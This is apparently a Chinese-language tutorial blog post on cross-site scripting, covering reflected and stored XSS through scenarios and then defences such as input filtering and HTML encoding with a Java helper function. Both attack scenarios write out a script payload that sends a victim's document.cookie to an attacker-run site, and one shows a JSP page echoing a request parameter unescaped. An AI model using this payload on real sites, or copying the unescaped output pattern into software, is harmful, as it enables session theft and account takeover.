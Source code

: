 ```yaml
---
layout:     post
title:      XSS的攻击及防御
subtitle:   
date:       2020-04-14
author:     Joey
header-img: img/post-bg-iWatch.jpg
catalog: true
tags:
    - Web
    - Vue
    - JavaScript
    - 前端
---
```


## 引言

XSS又称CSS，全称Cross SiteScript，跨站脚本攻击，是Web程序中常见的漏洞，XSS属于被动式且用于客户端的攻击方式，所以容易被忽略其危害性。其原理是攻击者向有XSS漏洞的网站中输入(传入)恶意的HTML代码，当其它用户浏览该网站时，这段HTML代码会自动执行，从而达到攻击的目的。如，盗取用户Cookie、破坏页面结构、重定向到其它网站等。

#### 一、定义

XSS攻击类似于SQL注入攻击，攻击之前，我们先找到一个存在XSS漏洞的网站，XSS漏洞分为两种，一种是DOM Based XSS漏洞，另一种是Stored XSS漏洞。理论上，所有可输入的地方没有对输入数据进行处理的话，都会存在XSS漏洞，漏洞的危害取决于攻击代码的威力，攻击代码也不局限于script。

###DOM Based XSS

DOM Based XSS是一种基于网页DOM结构的攻击，该攻击特点是中招的人是少数人

场景一：

当我登录a.com后，我发现它的页面某些内容是根据url中的一个叫content参数直接显示的，猜测它测页面处理可能是这样，其它语言类似：

```
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<!DOCTYPEhtmlPUBLIC"-//W3C//DTD HTML 4.01 Transitional//EN""http://www.w3.org/TR/html4/loose.dtd">

<html>

    <head>

       <title>XSS测试</title>

    </head>

    <body>

       页面内容：<%=request.getParameter("content")%>

    </body>

</html>
```

我知道了Tom也注册了该网站，并且知道了他的邮箱(或者其它能接收信息的联系方式)，我做一个超链接发给他，超链接地址为：http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>，当Tom点击这个链接的时候(假设他已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com，b.com是我搭建的网站，当我的网站接收到该信息时，我就盗取了Tom在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！这个过程中，受害者只有Tom自己。那当我在浏览器输入a.com?content=<script>alert(“xss”)</script>，浏览器展示页面内容的过程中，就会执行我的脚本，页面输出xss字样，这是攻击了我自己，那我如何攻击别人并且获利呢？

###Stored XSS

Stored XSS是存储式XSS漏洞，由于其攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人。

场景二：

a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功！这个过程中，受害者是多个人。
Stored XSS漏洞危害性更大，危害面更广。


###XSS防御
我们是在一个矛盾的世界中，有矛就有盾。只要我们的代码中不存在漏洞，攻击者就无从下手，我们要做一个没有缝的蛋。XSS防御有如下方式。

##完善的过滤体系
永远不相信用户的输入。需要对用户的输入进行处理，只允许输入合法的值，其它值一概过滤掉。

###Html encode
假如某些情况下，我们不能对用户数据进行严格的过滤，那我们也需要对标签进行转换。

| less-than character (<)        | &lt;   | 
| --------   | -----:  |
| greater-than character (>)      | &gt;   | 
| --------   | -----:  |
| ampersand character (&)     | &amp;   | 
| --------   | -----:  |
| double-quote character (")     | &quot;   | 
| --------   | -----:  |
| space character( )      | &nbsp;   | 

比如用户输入：<script>window.location.href=”http://www.baidu.com”;</script>，保存后最终存储的会是：&lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;在展现时浏览器会对这些字符转换成文本内容显示，而不是一段可执行的代码。

###其它

下面提供两种Html encode的方法。

- 使用Apache的commons-lang.jar
StringEscapeUtils.escapeHtml(str);// 汉字会转换成对应的ASCII码，空格不转换

- 自己实现转换，只转换部分字符
```html
private static String htmlEncode(char c) {
    switch(c) {
       case '&':

           return "&amp;";

       case '<':

           return "&lt;";

       case '>':

           return "&gt;";

       case '"':

           return "&quot;";

       case ' ':

           return "&nbsp;";

       default:

           return c + "";

    }

}

 

/** 对传入的字符串str进行Html encode转换 */

public static String htmlEncode(String str) {
    if (str ==null || str.trim().equals(""))   return str;

    StringBuilder encodeStrBuilder = new StringBuilder();

    for (int i = 0, len = str.length(); i < len; i++) {
       encodeStrBuilder.append(htmlEncode(str.charAt(i)));

    }

    return encodeStrBuilder.toString();

}
```

End

> 本文首次发布于 [Joey Blog](http://qiaoyu113.github.io), 作者 [@乔宇(Joey)](http://github.com/qiaoyu113) ,转载请保留原文链接..
